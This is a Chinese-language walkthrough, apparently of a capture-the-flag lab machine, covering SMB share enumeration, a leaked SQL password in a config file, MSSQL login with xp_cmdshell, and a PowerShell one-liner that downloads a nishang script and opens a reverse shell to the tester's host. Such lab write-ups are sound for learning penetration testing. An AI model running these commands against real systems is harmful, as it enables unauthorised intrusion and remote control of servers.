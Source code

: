 对靶机进行扫描`nmap -A 10.10.10.27`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201140005225.png)

1. 445/tcp端口,用于Windows系统的共享文件夹

2. 1433/tcp端口,用于MSSQL端口

---

首先对445端口的共享文件夹进行查看

`smbclient -N -L 10.10.10.27`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201140008420.png)

尝试对文件夹内的内容进行读取

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201140009670.png)

`prod.dtsConfig`文件内容为

```
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

可以知道用户名为`ARCHETYPE\sql_svc`,而密码为`M3g4c0rp123`

用[https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)下的`examples/mssqlclient.py`进行数据库连接

`python mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201140011153.png)

用`SELECT IS_SRVROLEMEMBER('sysadmin')`查看当前权限

[https://docs.microsoft.com/en-us/sql/t-sql/functions/is-srvrolemember-transact-sql?view=sql-server-ver15#examples](https://docs.microsoft.com/en-us/sql/t-sql/functions/is-srvrolemember-transact-sql?view=sql-server-ver15#examples)

```SQL
IF IS_SRVROLEMEMBER ('sysadmin') = 1  
   print 'Current user''s login is a member of the sysadmin role'  
ELSE IF IS_SRVROLEMEMBER ('sysadmin') = 0  
   print 'Current user''s login is NOT a member of the sysadmin role'  
ELSE IF IS_SRVROLEMEMBER ('sysadmin') IS NULL  
   print 'ERROR: The server role specified is not valid.';
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201140012120.png)

当前权限为`sysadmin`

开启`xp_cmdshell`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201141310630.png)

网络状况

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201141313585.png)

在`C:\Users\sql_svc\Desktop\`找到`user flag`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201141401893.png)

用[nishang](https://github.com/samratashok/nishang)反弹shell

`xp_cmdshell "powershell IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.16.45:8000/Invoke-PowerShellTcp.ps1\");Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.45 -port 8080"`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201141417163.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201141419525.png)

[命令历史记录](https://docs.microsoft.com/zh-cn/powershell/module/psreadline/about/about_psreadline?view=powershell-7.2#command-history)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201141425669.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201141426667.png)

psexec连接服务器

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201141433819.png)

手动开了3389但是连不上??

在`C:\Users\Administrator\Desktop\`找到`root flag`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201141447271.png)